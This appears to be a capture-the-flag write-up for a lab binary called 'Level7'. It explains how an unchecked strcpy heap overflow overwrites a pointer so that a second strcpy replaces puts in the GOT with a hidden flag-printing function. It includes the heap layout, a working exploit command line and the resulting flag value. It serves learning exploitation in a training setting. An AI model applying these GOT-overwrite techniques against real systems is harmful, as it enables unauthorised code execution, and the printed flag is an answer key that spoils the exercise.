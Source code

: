 # Level7

We can see that the program `fgets()` the flag and saves it in `obj.c` but does nothing with it  
There is however a function `m()` that prints `obj.c` but it is not called  

This binary does 4 `malloc` calls in a row

It uses `strcpy` to copy the strings in `av[0]` and `av[1]` to their respective allocated memory  
`strcpy` is unprotected and will copy until it reaches the end of the string of crahes  

We can overflow in during the first strcpy, to overwrite the address used as destination for the second strcpy  
```
#1 malloc(8)	; 0x0804A008 ; 4 bytes store index 1, following 4 store malloc #2 return
#2 malloc(8)	; 0x0804A018 ; destination of strcpy argv[0]
#3 malloc(8)	; 0x0804A028 ; 4 bytes store index 2, following 4 store malloc #4 return
#4 malloc(8)	; 0x0804A038 ; destination of strcpy argv[1] 
```

`av[0]` will have the address of puts in the GOT with 20 padding so that the address overflows into malloc #3 and replaces the address used as parameter in the second strcpy
`av[1]` will have the address to `m()` to be placed in the GOT

```
./level7 $(python -c "print 20 * 'A' + '\x08\x04\x99\x28'[::-1]") $(python -c "print '\x08\x04\x84\xf4'[::-1]")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1581869221
```
